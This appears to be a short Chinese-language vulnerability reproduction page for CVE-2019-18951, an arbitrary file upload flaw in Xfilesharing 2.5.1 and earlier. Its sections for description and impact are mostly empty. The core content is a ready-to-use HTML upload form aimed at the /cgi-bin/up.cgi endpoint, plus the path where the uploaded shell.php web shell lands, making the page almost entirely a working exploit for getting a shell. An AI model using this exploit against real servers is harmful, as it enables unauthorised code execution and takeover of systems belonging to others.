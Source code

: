 # （CVE-2019-18951）Xfilesharing 2.5.1 本地文件上传 getshell

> 原文：[http://book.iwonder.run/0day/Xfilesharing/1.html](http://book.iwonder.run/0day/Xfilesharing/1.html)

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 任意文件上传

```
<form action="http://0-sec.org/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
    <input type="text" name="sid" value="joe">
    <input type="file" name="file">
    <input type="submit" value="Upload" name="submit">
</form> 
```

Shell : [http://0-sec.org/cgi-bin/temp/joe/shell.php](http://0-sec.org/cgi-bin/temp/joe/shell.php)


